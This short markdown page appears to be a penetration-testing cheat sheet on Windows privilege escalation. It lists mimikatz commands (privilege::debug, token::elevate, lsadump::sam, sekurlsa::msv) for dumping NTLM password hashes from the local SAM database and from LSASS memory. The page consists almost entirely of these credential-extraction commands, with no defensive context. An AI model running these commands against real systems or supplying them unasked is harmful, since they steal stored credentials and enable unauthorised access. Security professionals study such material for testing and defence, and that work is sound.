 ```yaml
---
title: Windows privilege escalation
---
```


## Extracting NTLM hash

```powershell
mimikatz.exe
```

### From local SAM

```powershell
> privilege::debug
> token::elevate
> lsadump::sam
```

### From LSASS memory

```powershell
> privilege::debug
> token::elevate
> sekurlsa::msv
```

